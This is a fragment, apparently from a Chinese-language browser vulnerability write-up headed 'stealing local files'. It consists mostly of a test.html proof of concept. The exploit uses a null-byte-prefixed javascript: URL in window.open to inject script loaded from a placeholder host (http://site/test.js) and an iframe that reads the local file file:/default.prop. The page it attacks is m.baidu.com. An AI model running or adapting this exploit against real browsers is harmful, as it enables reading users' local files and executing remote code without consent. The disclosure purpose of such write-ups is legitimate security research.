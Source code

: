 ![](img/img6_u22_png.jpg)

![](img/img7_u17_jpg.jpg)

2、窃取本地文件

test.html

```
<button onclick="iframe.src='http://notfound/'">x</button><br>
<button onclick="exploit1()">Get local file!</button><br>
<script>
function exploit1() {
    window.open('\u0000javascript:document.body.innerHTML="<script/src=http://site/test.js></scr"+"ipt><iframe src=file:/default.prop onload=exploit2()  style=width:100%;height:1000px; name=test2></iframe>";','test');
}
</script>
<iframe src="http://m.baidu.com/" id="iframe" style="width:100%;height:1000px;" name="test"></iframe> 
```
